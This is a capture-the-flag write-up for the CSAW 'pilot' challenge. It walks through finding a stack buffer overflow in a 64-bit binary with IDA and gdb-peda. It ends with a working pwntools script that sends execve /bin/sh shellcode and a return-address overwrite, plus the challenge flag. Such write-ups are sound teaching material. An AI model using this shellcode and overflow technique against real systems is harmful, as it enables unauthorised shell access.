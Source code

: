 # pilot Writeup

![pilot](https://user-images.githubusercontent.com/41026969/50910626-2e3dd000-13fc-11e9-8ec9-58243f541a8e.png)

Ok so the description doesn't really give us much of anything, just an executable to work with and a ```nc``` address.
##### note: this ```nc``` address won't work for you since it's unique to each individual and requires vpn, check out links in my CTF page and look at the 365 CSAW link.

First, I did a few checks:

![pilot](https://user-images.githubusercontent.com/41026969/50911285-86290680-13fd-11e9-97aa-da7c1e90efe5.png)

To quickly explain what I did for every command I did:
```chmod +x pilot``` gives pilot permission to execute (to run). If we didn't, if we tried to run it it'd say "Permission Denied." ```file pilot``` checks what kind of file pilot is. We learn that this is a 64 bit executable which means 8 byte addresses (which may be handy to us further down). ```checksec pilot``` checks the properties of an executable. We see that the program does not utilize a [stack canary](https://en.wikipedia.org/wiki/Stack_buffer_overflow#Stack_canaries) (which essential checks to see if the stack has been changed for buffer overflow possibility). We then just test the program by passing a bunch of letters into it.

### Reverse engineering time
So I opened the file in IDApro 64 bit. In IDA, you can generate pseudocode by clicking ```view -> open subviews -> generate pseudocode```. Looking at the ```main``` function, I see this interesting piece of code:

![pilot](https://user-images.githubusercontent.com/41026969/51258592-56877a80-1978-11e9-844a-75a29572e2b8.png)

So from the code above, we can see a few things. 
1) The read() instruction is called
2) The function will take in 64 bytes (or characters) into standard input (in IDA, you can right click and convert the hex to decimal)
3) if what we inputted is less than or equal to 4 bytes, we see that ```[*]There are no commands....``` and ```[*]Mission Failed....``` will get printed out - that's not what I want...

I looked at the disassembly x86 instructions next, specifically looked at the main function again. I saw this:

![pilot](https://user-images.githubusercontent.com/41026969/51260034-60f74380-197b-11e9-8d90-c6202fc5fe3e.png)

This is the part where the [function prologue](https://en.wikipedia.org/wiki/Function_prologue) takes place. We see that the function only allocates 32 bytes of space (I converted the hex value IDA says into decimal) into the stack, this is strange because even though the function prologue creates the stack with 32 bytes of memory, the buffer that we're inputting into is 64 bytes... This program is exploitable via buffer overflow.

### Exploiting
To know better about the program and the stack, I used gdb with [peda](https://github.com/longld/peda) (python exploit development assistance). peda is an excellent tool as it allows us to observe the stack and registers after the program exits and it includes some fancy color text. So first I run the program in gdb peda by typing ```gdb pilot```. Then I type ```r``` to run the program. 

So we need to find how many bytes we need to feed into the input before the return address is popped. To do this, when the program is run, I first input ```AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP```. We input this because when we examine the stack registers later, we will be able to see which letters have overflowed through the base pointer into the stack pointer. Here's a picture of it below:

![pilot](https://user-images.githubusercontent.com/41026969/51324731-7337b700-1a39-11e9-8471-eed6010d64cb.png)

So if you didn't read the [function prologue](https://en.wikipedia.org/wiki/Function_prologue) page in the beginning of this writeup here's a quick summary:

1) the return address is pushed onto the stack (so the function knows where to return after the function called is done)
2) the base pointer is pushed onto the stack
3) the stack pointer is made equal to the base pointer
4) the stack pointer is then subtracted by a set amount (depends on some stuff). The space that's made between the stack pointer and the base pointer is used to memory. This is the space in memory that we will overwrite and exploit

In the picture above the ```RBP``` stands for base pointer, and wee see it's: ```RBP: 0x4a4a4a4a49494949 ('IIIIJJJJ')```. Hence, it took from A (four times) to J (four times) to overwrite into the return address (total of 40 characters).

So we can write some shellcode that will execute to /bin/sh to get us a shell running as the host (pilot). Doing some researching we find shell code for 64 bit /bin/sh exploit [here](http://shell-storm.org/shellcode/files/shellcode-811.php).

Here is the code I came up with (also attached above):
```python
# Exploit for the pilot CSAW challenge

from pwn import *

session = remote("10.67.0.1", 30983)

session.recvuntil("[*]Location:")

address = session.recvuntil("\n")[:-1]

shellcode = "\x31\xc0\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\xb0\x3b\x48\x89\xe7\x31\xf6\x31\xd2\x0f\x05"

payload = shellcode + "A" * (40-len(shellcode)) + p64(int(address, 16)) 

print("Address: " + str(address))
print("total payload: " + str(payload))

session.sendline(payload)

session.interactive()
```
Walking through the code:

- I basically open a session to the address
- I start reading the adddress that's given from the program and store it into ```address``` then remove the new line character at the end
- the ```shellcode``` variable is from the link from googling
- to put together the payload, it's first the shellcode, then number of bytes times (40 minus length of shellcode) to make sure we don't over write too much. Then the last part is simply the 8 byte address (padded with 2 extra bytes at the end because the original address given is 6 bytes total) that was given from the program.
- we then just send the payload and set up interactive().

##### note: that nc address won't work (it's based on your CSAW365 account) and you need a vpn.

![pilot](https://user-images.githubusercontent.com/41026969/51542112-77444a00-1e28-11e9-96c8-dd56335d3f02.png)

Running the code will come up with the flag:
```flag{1nput_c00rd1nat3s_Strap_y0urse1v3s_1n_b0ys}```
